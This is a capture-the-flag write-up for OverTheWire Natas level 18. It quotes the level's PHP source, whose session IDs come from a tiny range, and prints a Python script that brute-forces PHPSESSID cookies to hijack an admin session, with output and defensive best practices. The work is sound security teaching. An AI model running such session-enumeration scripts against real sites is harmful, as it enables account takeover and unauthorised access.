

# Natas Level 18: Session Hijacking via Brute Force

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 18 | natas18 | http://natas18.natas.labs.overthewire.org |

**Introduction:** 

Natas Level 18 shifted focus from SQL injection to session management vulnerabilities. The page presented a simple login form asking for admin credentials, but as I would soon discover, I didn't need to know the admin password at all. The developers made a critical mistake: using weak, predictable session IDs in a tiny range. This opened the door to session hijacking through brute force, where I could simply try every possible session ID until I found one that belonged to an admin.

---

## Hunting for Clues

When I loaded the page, I saw a straightforward login interface:



The page displayed "NATAS18" at the top with a message: "Please login with your admin account to retrieve credentials for natas19." Below that were the familiar "Username:" and "Password:" fields followed by a "Login" button. The "View sourcecode" link was positioned at the bottom, and the WEchall "Submit token" button appeared in the top right corner.

The message made it clear that I needed to authenticate as an admin user to get the credentials for the next level. But I didn't have admin credentials, so I needed to understand how the session management worked. I clicked on "View sourcecode":

```php
...
<?php

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}

if($showform) {
?>
...
```

This source code revealed several critical security flaws. Let me analyze each component:

**1. Session ID Range:**
```php
$maxid = 640; // 640 should be enough for everyone
```

The comment is both humorous and alarming. The maximum session ID is only 640. This is an incredibly small range for a security critical value. For comparison, PHP's default session IDs are 128 bit random strings, providing 2^128 possible values (about 3.4 × 10^38). Limiting it to 640 makes brute force trivial.

**2. Broken Admin Authentication:**
```php
function isValidAdminLogin() {
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }
    return 0;
}
```

This function always returns 0, meaning it's impossible to legitimately become an admin through the login form. Even if you enter "admin" as the username, the return statement is commented out. This function effectively disables admin authentication entirely.

**3. Predictable Session ID Generation:**
```php
function createID($user) {
    global $maxid;
    return rand(1, $maxid);
}
```

When a user logs in, the session ID is generated using `rand(1, 640)`. This creates a session ID between 1 and 640. The `rand()` function in PHP is not cryptographically secure, but more importantly, the range is so small that even perfect randomness wouldn't help.

**4. Session Validation:**
```php
function my_session_start() {
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
        if(!session_start()) {
            debug("Session start failed");
            return false;
        } else {
            debug("Session start ok");
            if(!array_key_exists("admin", $_SESSION)) {
                debug("Session was old: admin flag set");
                $_SESSION["admin"] = 0; // backwards compatible, secure
            }
            return true;
        }
    }
    return false;
}
```

This function checks if a `PHPSESSID` cookie exists and if its value is numeric. If both conditions are met, it starts the session. Crucially, it doesn't verify that the session ID belongs to the current user or that it was legitimately generated. This allows session hijacking.

**5. Credential Display Logic:**
```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas19\n";
        print "Password: <censored></pre>";
    } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

The credentials are displayed if `$_SESSION["admin"]` equals 1. Since we can't set this through normal login (the `isValidAdminLogin()` function is disabled), we need to find a session that already has this flag set.

**The Vulnerability:**

The key insight is that somewhere among the 640 possible session IDs, there's likely an active admin session. Maybe someone else logged in as admin before the authentication was disabled, or maybe a session was created during testing. Regardless, with only 640 possibilities, I can brute force every single session ID until I find one with admin privileges.

---

## Breaking In

My strategy was straightforward: iterate through all possible session IDs (1 to 640), send a request with each one, and check if the response indicates admin access. With only 640 possibilities, this would take seconds to complete.

I wrote a Python script to automate the brute force:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ cat solve18.py
import requests
from requests.auth import HTTPBasicAuth
import re

target = "http://natas18.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth('natas18', '6OG[REDACTED]')

print("[*] Brute-forcing Session IDs (1-640)...")

for sid in range(1, 641):
    print(f"[?] Testing PHPSESSID: {sid}", end="\r")

    cookies = {'PHPSESSID': str(sid)}
    r = requests.get(target, auth=auth, cookies=cookies)

    if "You are an admin" in r.text:
        print(f"\n\n[SUCCESS] Found Admin Session ID: {sid}")

        match = re.search(r"Password:\s+([a-zA-Z0-9]{32})", r.text)
        if match:
            print(f"[*] Password: {match.group(1)}")
        break
```

Let me explain the script's logic:

1. **Target Configuration:**
   - URL points to index.php
   - HTTP Basic Auth with natas18 credentials

2. **Brute Force Loop:**
   - Iterate from 1 to 640 (inclusive with range(1, 641))
   - Print progress indicator with `\r` for same line updates
   - For each iteration, set the PHPSESSID cookie to the current number

3. **Request and Check:**
   - Send GET request with the crafted cookie
   - Check if response contains "You are an admin"
   - If yes, we found the admin session

4. **Password Extraction:**
   - Use regex to extract the 32 character password
   - Pattern `r"Password:\s+([a-zA-Z0-9]{32})"` matches "Password:" followed by whitespace and a 32 char alphanumeric string
   - Print the password and exit

The beauty of this attack is its simplicity. I don't need to crack passwords, exploit SQL injection, or bypass complex authentication. I just need to try 640 different numbers.

I ran the script:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ python3 solve18.py
[*] Brute-forcing Session IDs (1-640)...
[?] Testing PHPSESSID: 119

[SUCCESS] Found Admin Session ID: 119
[*] Password: tnw[REDACTED]
```

Perfect! The script found an admin session at ID 119. It only took a moment to test 119 session IDs, and the password for natas19 was revealed.

**What Happened:**

1. The script started at session ID 1
2. For each ID, it sent a request with `PHPSESSID` set to that number
3. The server loaded the session data associated with that ID
4. At ID 119, the session had `$_SESSION["admin"] = 1`
5. The server displayed the admin credentials
6. The script extracted the password using regex

**Why This Works:**

Session hijacking via brute force is possible here because:

1. **Small Session ID Space:** Only 640 possibilities (compared to billions or trillions in secure systems)
2. **Predictable Format:** Simple sequential numbers (1, 2, 3, etc.)
3. **No Rate Limiting:** The server accepts unlimited login attempts
4. **Session Reuse:** The application reuses session IDs, so an admin session created earlier is still valid
5. **No Session Binding:** Sessions aren't tied to IP addresses or user agents, so anyone with the session ID can use it

**The Vulnerability Breakdown:**

This challenge demonstrates **Session Hijacking via Weak Session ID Generation and Brute Force**:

1. **Insufficient Session ID Entropy:** Using only 640 possible values provides virtually no security against brute force attacks.

2. **Predictable Session IDs:** Sequential numbers are the worst possible choice for session identifiers. Attackers can easily enumerate all possibilities.

3. **No Session Validation:** The application doesn't verify that the session belongs to the current user. It only checks if the ID is numeric and exists.

4. **No Rate Limiting:** An attacker can try hundreds of session IDs per second without being blocked or throttled.

5. **Session Persistence:** Admin sessions persist even after the authentication mechanism is disabled, creating a permanent backdoor.

6. **No Session Binding:** Sessions aren't tied to client characteristics (IP address, User Agent, TLS session ID), allowing anyone to reuse them.

**Real World Impact:**

Weak session management leads to:

- **Account Takeover:** Attackers can hijack any user session, including administrators
- **Data Theft:** Access to sensitive information stored in sessions
- **Privilege Escalation:** Non admin users can gain admin access
- **Session Fixation:** Attackers can force users to use known session IDs
- **Persistent Access:** Even if passwords are changed, hijacked sessions remain valid
- **Compliance Violations:** Fails OWASP, PCI DSS, and other security standards

**Session ID Best Practices:**

Secure session management requires:

1. **Cryptographically Random Session IDs:**
   ```php
   // Good: 128+ bits of randomness
   $session_id = bin2hex(random_bytes(16)); // 32 character hex string
   
   // Bad: Predictable values
   $session_id = rand(1, 640);
   ```

2. **Sufficient Entropy:**
   ```php
   // Minimum 128 bits recommended
   // PHP default session IDs are 128 bits (26 characters)
   ini_set('session.sid_length', 32);
   ini_set('session.sid_bits_per_character', 5);
   ```

3. **Session Binding:**
   ```php
   // Bind session to IP address and User Agent
   if ($_SESSION['ip'] !== $_SERVER['REMOTE_ADDR'] ||
       $_SESSION['ua'] !== $_SERVER['HTTP_USER_AGENT']) {
       session_destroy();
       die("Session hijacking detected");
   }
   ```

4. **Session Regeneration:**
   ```php
   // Regenerate session ID on privilege changes
   if (user_login_successful()) {
       session_regenerate_id(true);
       $_SESSION['authenticated'] = true;
   }
   ```

5. **Session Timeout:**
   ```php
   // Implement idle timeout
   if (time() - $_SESSION['last_activity'] > 1800) { // 30 minutes
       session_destroy();
       redirect_to_login();
   }
   $_SESSION['last_activity'] = time();
   ```

6. **Secure Cookie Flags:**
   ```php
   ini_set('session.cookie_httponly', 1); // Prevent JavaScript access
   ini_set('session.cookie_secure', 1);   // HTTPS only
   ini_set('session.cookie_samesite', 'Strict'); // CSRF protection
   ```

7. **Rate Limiting:**
   ```php
   // Limit session attempts per IP
   if (session_attempts($ip) > 10) {
       ban_ip($ip, 3600);
       die("Too many session attempts");
   }
   ```

8. **Session Storage Security:**
   ```php
   // Store sessions securely (database, Redis, Memcached)
   // Not in world readable /tmp directory
   ini_set('session.save_path', '/var/lib/php/sessions');
   ```

9. **Logout Functionality:**
   ```php
   // Properly destroy sessions on logout
   session_start();
   session_unset();
   session_destroy();
   setcookie(session_name(), '', time()-3600);
   ```

10. **Monitoring and Alerting:**
    ```php
    // Log unusual session activity
    if (unusual_session_pattern()) {
        log_security_event("Potential session hijacking");
        alert_security_team();
    }
    ```

**Alternative Attack Methods:**

Even without brute force, this level demonstrates poor security:

- **Session Fixation:** Attacker could set a known session ID and trick admin into using it
- **Session Sniffing:** Without HTTPS, session IDs could be intercepted
- **XSS to Cookie Theft:** If XSS exists, cookies could be stolen (though HttpOnly prevents this)

**Why 640?**

The comment "640 should be enough for everyone" is likely a reference to the famous (possibly apocryphal) Bill Gates quote "640K ought to be enough for anybody" about RAM. It's a humorous way to highlight that arbitrary limits on security critical values are dangerous.

---

## The Loot

**Next Level Password:** `tnw[REDACTED]`

**Quick Recap:** Exploited weak session management by brute forcing all 640 possible session IDs to find an active admin session, bypassing authentication entirely through session hijacking.

---

## Lessons Learned

This level reinforced critical session security concepts:

1. **Session IDs Must Be Unpredictable:** Using small ranges or sequential numbers makes brute force attacks trivial. Cryptographically random values are mandatory.

2. **Entropy Matters:** The difference between 640 possibilities and 2^128 possibilities is the difference between instant compromise and practical impossibility.

3. **Authentication Bypass via Session Hijacking:** If session management is weak, attackers don't need valid credentials. They can simply steal or guess valid session IDs.

4. **No Obscurity Through Disabling:** Commenting out the admin authentication but leaving admin sessions active creates a permanent backdoor.

5. **Automation Scales Weakness:** What might seem secure (640 is a reasonably large number) becomes trivial when automated tools can test hundreds per second.

6. **Defense in Depth Failed:** The application relied on a single weak control. When session IDs proved weak, there were no additional protections.

7. **Session Persistence is Dangerous:** Sessions that persist indefinitely increase the attack window. Implement appropriate timeouts.

8. **Default is Better:** PHP's default session handling generates much stronger session IDs than this custom implementation.

This challenge perfectly demonstrates why security critical components like session management should use well tested, cryptographically secure defaults rather than custom implementations. The developers' attempt to create a simple session system resulted in a catastrophic vulnerability that completely bypassed all authentication.

On to Level 19!
